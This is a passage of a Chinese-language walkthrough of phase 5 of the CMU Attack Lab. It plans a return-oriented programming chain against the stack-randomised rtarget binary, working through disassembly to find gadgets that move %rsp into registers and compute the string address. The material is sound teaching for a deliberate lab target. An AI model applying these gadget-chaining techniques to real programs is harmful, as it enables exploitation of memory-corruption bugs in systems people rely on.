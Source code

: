 ![phase5.png](phase5.png)

但是我后来有点卡壳了，问题在于把字符串存在什么位置呢？如果存在那个位置，在`rtarget`汇编中能找到对应的`gadget`吗？于是我查找了[一点资料](https://zhuanlan.zhihu.com/p/410418053)(有点耍赖了对不起对不起~)，这个资料中提到的一条信息是我没有想到的：

> rtarget 相比 ctarget 的区别在于开启了栈随机化。也就是运行时字符串的地址是不确定的。在 phase 3 中我们所做的工作是刚好将其压在`test`函数的返回地址下面，但是这里我们需要其相对与栈顶的地址。

因此，我们应该做的步骤是：

```
1. 将攻击字符串放在%rsp + offset 处
2. 让 %rdi = %rsp + offset
3. ret
```

那么如何计算这个地址，并且将其赋给`%rdi`呢？这个地址的计算需要在`%rsp`的基础上偏移几十个字节。地址的计算我们可以使用`lea`指令，然而加法运算如何实现呢？我们看看代码中有没有提供：

```c
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}
```

这段代码的汇编格式如下：

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq
```

其把`%rdi`和`%rsi`累加到`%rax`中，那么我们要计算偏移量，需要分别把`%rsp`和偏移量放到`%rsi`和`%rdi`中。最后让`%rdi = rax`。

在`rtarget`中，与`%rsp`相关的字节有`48 89 e0`，其编码为`movq %rsp,%rax`。和`%esp`相关的字节有`89 e0`，其编码为`movl %esp, %eax`。包含这段编码的代码如下：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq

0000000000401a18 <getval_345>: // 不可取，c1不是单独指令
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq

0000000000401a47 <addval_201>: // 不可取，c7不是单独指令
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq

0000000000401a5a <setval_299>: // 不可取，91不是单独指令
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq

0000000000401a83 <addval_358>:
```